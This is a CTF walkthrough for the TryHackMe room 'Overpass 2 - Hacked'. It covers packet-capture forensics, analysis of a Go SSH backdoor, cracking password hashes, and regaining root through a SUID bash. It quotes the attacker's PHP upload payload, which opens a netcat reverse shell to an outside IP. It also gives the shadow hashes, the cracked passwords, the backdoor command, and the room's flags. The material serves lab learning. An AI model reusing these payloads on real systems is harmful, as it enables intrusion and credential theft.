


# Overpass 2 - Hacked

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

[Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

## Topic's

- Network Forensic
- Code Injection
- Brute Forcing (Hash)
- Reverse Engineering (Go)
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing [CC: Pentesting](https://tryhackme.com/room/ccpentesting) and [Learn Linux](https://tryhackme.com/room/zthlinux) as a bare minimum.

**md5sum** of PCAP file: `11c3b2e9221865580295bc662c35c6dc`

1. What was the URL of the page they used to upload a reverse shell?



`/development/`

3. What payload did the attacker use to gain access?

```
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

5. What password did the attacker use to privesc?

```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant
```

`whenevernoteartinstant`

7. How did the attacker establish persistence?

```
User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

`https://github.com/NinjaJc01/ssh-backdoor`

8. Using the fasttrack wordlist, how many of the system passwords were crackable?

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

```
kali@kali:~/CTFs/tryhackme/Overpass 2 - Hacked$ john shadow --wordlist=wordlist.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2020-10-05 18:15) 7.017g/s 315.7p/s 1578c/s 1578C/s P@55w0rd..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`4`

## Task 2 Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

1. What's the default hash for the backdoor?

- [ssh-backdoor/main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

1. What's the hardcoded salt for the backdoor?

```go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

`1c362db832f3f864c8c2fe05f2002a05`

2. What was the hash that the attacker used? - go back to the PCAP for this!

```
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

3. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

```
kali@kali:~/CTFs/tryhackme/Overpass 2 - Hacked$ hashcat -m 1710 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 --force /usr/share/wordlists/rockyou.txt
```

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Mon Oct  5 18:36:15 2020 (0 secs)
Time.Estimated...: Mon Oct  5 18:36:15 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    57881 H/s (0.99ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika

Started: Mon Oct  5 18:35:56 2020
Stopped: Mon Oct  5 18:36:16 2020
```

`november16`

## Task 3 Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

1. The attacker defaced the website. What message did they leave as a heading?

- [http://10.10.183.197/](http://10.10.183.197/)



`H4ck3d by CooctusClan`

1. Using the information you've found previously, hack your way back in!

`No answer needed`

2. What's the user flag?

```
kali@kali:~/CTFs/tryhackme/Overpass 2 - Hacked$ ssh -p 2222 james@10.10.183.197
The authenticity of host '[10.10.183.197]:2222 ([10.10.183.197]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.183.197]:2222' (RSA) to the list of known hosts.
james@10.10.183.197's password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ cd ~
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}
james@overpass-production:/home/james$
```

`thm{d119b4fa8c497ddb0525f7ad200e6567}`

3. What's the root flag?

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22 03:40 .
drwxr-xr-x 7 root  root     4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james       9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21 00:36 .cache
drwx------ 3 james james    4096 Jul 21 00:36 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22 03:35 .local
-rw------- 1 james james      51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22 03:35 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james    4096 Jul 21 01:37 www
```

`-rwsr-sr-x 1 root root 1113504 Jul 22 02:57 .suid_bash`

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4#
```

`thm{d53b2684f169360bb9606c333873144d}`
